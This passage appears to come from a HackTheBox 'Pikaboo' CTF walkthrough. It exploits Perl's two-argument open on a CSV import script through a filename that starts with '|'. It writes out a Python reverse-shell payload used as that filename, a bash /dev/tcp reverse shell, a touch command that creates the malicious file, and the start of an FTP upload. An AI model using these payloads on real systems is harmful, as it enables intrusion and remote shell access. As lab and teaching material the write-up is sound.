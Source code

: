 ```perl
if(!exists $csv_fields{$type})
{
  die "Unrecognised CSV data type: $type.\n";
}

my $csv = Text::CSV->new({ sep_char => ',' });

my $fname = "${csv_dir}/${type}.csv";
open(my $fh, ">>", $fname) or die "Unable to open CSV target file.\n";

shift;
for(<>)
{
  chomp;
  if($csv->parse($_))
  {
    my @fields = $csv->fields();
    if(@fields != $csv_fields{$type})
    {
      warn "Incorrect number of fields: '$_'\n";
      next;
    }
    print $fh "$_\n";
  }
}

close($fh);
```
Looking through the perl script we can see takes the file name as argument.
Looking for the vulnerability in perl file open.
I came across this question in stackoverflow.
https://stackoverflow.com/questions/26614348/perl-open-injection-prevention
which than increased my curosity to learn more as answer didn't explain a good way to exploit and looking for the exploit for that I stumbled upon this article.
https://wiki.sei.cmu.edu/confluence/pages/viewpage.action?pageId=88890543
which explained the exploit in detailed.
The exploit basically is that if the filename starts with '|' then the rest of file name will be executed as command rather than the file name itself so I build up a payload for that.
```python
|python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"<YOUR IP>\",<PORT>));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")';echo .csv
```
So this is the file name that I come up with and I will tell why this shell as the command is passed through basename so ant '/' will just split the payload and mess with the working of the payload.
```bash
kali@kali:~/HackTheBox/Pikaboo$ basename '/bin/bash'
bash
```
So as we can see above we cannot use the bash payload as due to below.
```bash
kali@kali:~/HackTheBox/Pikaboo$ basename 'bash -c "bash -i >& /dev/tcp/<YOUR IP>/12345 0>&1"'
12345 0>&1"
```
So basically it will just send '12345 0>&1' to the perl script and your payload cannot execute so thats why I chose python payload.
So let's create the file.
```bash
kali@kali:~/HackTheBox/Pikaboo$ touch "|python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"<YOUR IP>\",<PORT>));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")';echo .csv"
```
and we need .csv at the as to bypass the check in the bash script.
Now let's upload the file but before that start the nc listener on that port.
```bash
kali@kali:~/HackTheBox/Pikaboo$ ftp pikaboo.htb 
Connected to pikaboo.htb.
```